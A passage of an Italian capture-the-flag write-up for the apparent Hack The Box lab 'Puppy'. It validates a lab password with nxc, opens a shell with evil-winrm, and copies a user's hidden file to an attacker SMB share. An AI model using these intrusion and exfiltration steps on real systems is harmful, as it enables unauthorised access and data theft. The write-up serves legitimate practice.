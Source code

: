 Si verifica la validita' delle credenziali.

```bash

$ nxc smb PUPPY.HTB -u 'steph.cooper' -p 'ChefSteph2025!'                                                   
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC               [+] PUPPY.HTB\steph.cooper:ChefSteph2025! 

$ nxc winrm PUPPY.HTB -u 'steph.cooper' -p 'ChefSteph2025!'
WINRM       10.x.x.x  5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
WINRM       10.x.x.x  5985   DC               [+] PUPPY.HTB\steph.cooper:ChefSteph2025! (Pwn3d!)

```

-  **steph.cooper:ChefSteph2025!**

## Shell as Steph

```bash

$ evil-winrm -i 10.x.x.x -u 'steph.cooper' -p 'ChefSteph2025!'

```

Nella home di **steph.cooper** non e' presente nulla di interessante.

Su **Bloodhound** non sono evidenziati *path* di attacco da **steph.cooper**.

## Deeper Information Gathering su Adam

Si approfondisce l'analisi di **adam.silver**.

```bash

*Evil-WinRM* PS C:\Users\adam.silver\Desktop> dir -h


    Directory: C:\Users\adam.silver\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-         2/28/2025  12:31 PM            282 desktop.ini
-a-hs-         2/28/2025  12:31 PM          11068 DFBE70A7E5CC19A398EBF1B96859CE5D

```

Si scarica il file sulla macchina Kali utilizzando il **server SMB**.

```powershell

*Evil-WinRM* PS C:\Users\adam.silver\Desktop> net use \\10.10.16.28 /u:ap ap
The command completed successfully.

*Evil-WinRM* PS C:\Users\adam.silver\Desktop> copy DFBE70A7E5CC19A398EBF1B96859CE5D \\10.10.16.28\share\

```

